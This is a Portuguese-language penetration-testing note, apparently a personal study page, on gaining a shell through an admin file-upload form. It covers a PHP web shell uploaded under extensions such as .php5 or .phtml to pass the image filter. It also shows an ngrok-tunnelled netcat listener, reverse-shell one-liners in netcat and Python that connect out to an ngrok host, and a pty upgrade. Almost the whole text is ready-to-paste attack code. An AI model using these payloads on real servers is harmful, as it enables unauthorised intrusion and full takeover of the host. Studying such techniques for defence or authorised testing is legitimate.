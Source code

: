 ```yaml
---
tags:
  - Pentest
  - WEB
---
```

Para que ocorra essa exploração, é necessário que primeiro já tenha conseguido as *credenciais do admin* por meio da exploração do **xss** e sql **injection**.

# Criando código malicioso para upload

Por meio da linguagem de programação aceita pelo servidor, vamos criar um código que tenha como ser anexado no servidor de forma *mascada*, ultilizando extensões que não sejam barradas por ele. No caso do servidor PHP criaremos como uma extensão 

```shell
nano shell.php5
nano shell.php7
nano shell.phtml
```

- O arquivo malicioso deve ser escrito da seguinte forma:

```php
<?php echo shell_exec($_GET["cmd"]); ?>
```

- Após escrever, fazer o upload do arquivo na página do admin no lugar de uma imagem

- Para testar  os comandos e ver se o arquivo está funcionando, basta rodar qualquer comando do terminal,  -> vamos no diretório **onde se encontra o upload realizado**

# Shell Reversa

Para criar uma shell reversa no servidor, primeiro criaremos um túnel **TCP** com o ngrok para a porta **789** com o netcat:

```shell
nc -lvp 789

./ngrok tcp 789
```

- nc -lvp 789 - **Servidor** que receberá as requisições e será a shell reversa
- ./ngrok tcp 789 - **Túnel** do ngrok que irá apontar o servidor do alvo para o nosso servidor local.

Para saber se no servidor do alvo existe um binário do netcat que aceitará nossa conexão, vamos digitar o seguinte comando e ver o retorno:

```shell
cmd= which nc
```

Para finalmente criarmos a shell reversa, basta colar o seguinte comando na url:

```shell
shell.php5?cmd=nc 8.tcp.ngrok.io 12346 -e /bin/bash
```

- ``8.tcp.ngrok.io`` - Túnel
- `12346` - Porta
-  `-e /bin/bash` - comando para abrir o bash dentro do servidor 

Quando a conexão for estabelecida, já teremos tomado total controle ao servidor:
## Reverse Shell com Python
Também é possivel encontrar Shells Reversas já escritas em outras linguagens pelo github como é o caso do Python.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

#-> ("10.0.0.1",4242) - trocar pelo host e a porta do Ngrok:
#-> ("8.tcp.ngrok.io",12346)

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("8.tcp.ngrok.io",12346));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

Assim que colar na url, daremos mais um comando shell para expandir esse terminal:

```python
python -c "import pty;pty.spawn('/bin/bash')"
```
